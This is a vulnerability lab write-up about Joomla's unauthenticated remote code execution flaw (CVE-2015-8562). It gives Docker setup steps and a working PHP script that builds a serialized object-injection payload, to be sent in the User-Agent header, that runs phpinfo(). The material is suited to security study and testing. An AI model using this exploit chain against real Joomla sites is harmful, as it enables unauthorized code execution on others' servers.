

Joomla HTTP Header Unauthenticated Remote Code Execution (CVE-2015-8562)¶
Joomla is a free and open-source content management system (CMS) that allows users to build websites and online applications. It was first released in 2005 and has since become one of the most popular CMS platforms, powering millions of websites around the world.
Joomla suffers from an unauthenticated remote code execution that affects all versions from 1.5.0 to 3.4.5. By storing user supplied headers in the databases session table it's possible to truncate the input by sending an 4-bytes UTF-8 character. The custom created payload is then executed once the session is read from the database. You also need to have a PHP version before 5.4.45 (including 5.3.x), 5.5.29 or 5.6.13.
References:
- https://packetstormsecurity.com/files/134949/Joomla-HTTP-Header-Unauthenticated-Remote-Code-Execution.html
- https://www.leavesongs.com/PENETRATION/joomla-unserialize-code-execute-vulnerability.html
Vulnerable Environment¶
Executing following command to start a Joomla 3.4.5:
docker compose up -d
After the server is started, you can see the home page of it at http://your-ip:8080.
Exploit¶
First of all, you need to send a request without User-Agent header and remember the Cookie in the response:

Then use this script to generate a payload (execute online):
<?php
class JSimplepieFactory {
}
class JDatabaseDriverMysql {
}
class SimplePie {
var $sanitize;
var $cache;
var $cache_name_function;
var $javascript;
var $feed_url;
function __construct()
{
$this->feed_url = "phpinfo();JFactory::getConfig();exit;";
$this->javascript = 9999;
$this->cache_name_function = "assert";
$this->sanitize = new JDatabaseDriverMysql();
$this->cache = true;
}
}
class JDatabaseDriverMysqli {
protected $a;
protected $disconnectHandlers;
protected $connection;
function __construct()
{
$this->a = new JSimplepieFactory();
$x = new SimplePie();
$this->connection = 1;
$this->disconnectHandlers = [
[$x, "init"],
];
}
}
$a = new JDatabaseDriverMysqli();
$poc = serialize($a);
$poc = str_replace("\x00*\x00", '\\0\\0\\0', $poc);
echo "123}__test|{$poc}\xF0\x9D\x8C\x86";

Put this craft payload into User-Agent header with Cookie obtained earlier then send request again. As you can see, our code phpinfo() is executed: